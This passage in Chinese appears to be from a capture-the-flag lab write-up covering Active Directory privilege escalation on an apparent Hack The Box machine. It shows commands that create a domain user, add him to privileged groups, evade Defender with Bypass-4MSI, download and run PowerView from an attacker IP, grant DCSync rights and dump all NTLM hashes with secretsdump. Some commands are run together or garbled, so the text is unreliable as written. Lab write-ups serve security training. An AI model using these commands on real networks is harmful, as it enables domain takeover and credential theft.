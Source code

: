 
```
net user john abc123! /add /domainnet group "Exchange Windows Permissions" john /addnet localgroup "Remote Management Users" john /add
```

上面的命令创建了一个名为 john 的新用户，并将他添加到所需的组中。接下来，下载 PowerView 脚本并将其导入到当前会话中。

![](img/03d65231485bf3828a529e1cadd67885.png)

菜单>旁路-4MSI

Bypass-4MSI 命令用于在导入脚本之前避开 defender。接下来，我们可以将 Add-ObjectACL 用于 john 的凭证，并授予他 DCSync 权限。

![](img/111ca8b5cfadec3fd24e5c9ff2771c4f.png)

```
IEX(New-Object Net.WebClient).downloadString('[<http://10.10.14.11/PowerView.ps1>](<http://10.10.14.11/PowerView.ps1>)')$pass = convertto-securestring 'abc123!' -asplain -force$cred = new-object system.management.automation.pscredential('htb\\john', $pass)Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity john -Rights DCSync
```

运行后:

[secrets dump . py](http://secretsdump.py)htb/John @ 10 . 10 . 10 . 161

其中 htb 是域

Impacket 中的脚本现在可以作为 john 运行，并用于显示所有域用户的 NTLM 哈希。
